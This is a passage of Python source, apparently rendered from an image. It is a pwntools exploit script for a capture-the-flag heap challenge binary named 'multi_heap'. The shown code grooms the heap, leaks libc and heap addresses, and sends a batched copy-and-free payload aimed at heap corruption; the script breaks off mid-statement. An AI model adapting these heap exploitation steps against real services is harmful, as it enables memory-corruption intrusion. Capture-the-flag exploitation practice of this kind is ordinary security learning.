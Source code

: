 ```python
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def Read(idx, size, buf):
    p.recvuntil('Your choice: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Content: ')
    p.send(buf)

def Copy(src_idx, dst_idx, size, ch):
    p.recvuntil('Your choice: ')
    p.sendline('5')
    p.recvuntil('Src index: ')
    p.sendline(str(src_idx))
    p.recvuntil('Dst index: ')
    p.sendline(str(dst_idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('(y/n): ')
    p.sendline(ch)

def Copy_s(src_idx, dst_idx, size, ch):
    return '5\n' + str(src_idx) + '\n' + str(dst_idx) + '\n' + str(size) + '\n' + ch + '\n'

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        p = process('./multi_heap', env = {'LD_PRELOAD' : './libc.so.6'})
    else:
        p = remote(ip, port)
    for i in range(3):
        Alloc('long', 0x500, 'm')

    for i in range(2):
        Free(0)
    Alloc('long', 0x500, 'm')
    Alloc('long', 0x500, 'm')
    Write(1)
    libc_addr = int(p.recvline()) - 0x3ebca0
    heap_addr = int(p.recvline()) - 0x123f0
    log.info('libc addr is : ' + hex(libc_addr))
    log.info('heap addr is : ' + hex(heap_addr))
    Alloc('char', 0x100, 'm')
    Alloc('char', 0x100, 'm')
    Read(4, 8, p64(heap_addr + 0x12fe0))
    # p.recv(1024)
    # p.sendline('10')
    # Copy(4, 3, 8, 'y')
    # Write(3)
    # Write(4)
    # Free(3)
    buf = Copy_s(4, 3, 8, 'y') + Free_s(3)
    p.send(buf)
    Alloc('char', 0x100, 'm')
    Alloc('char', 0x100, 'm')
    Write(5)
    data = p.recvline()
    if '==' in data:
```
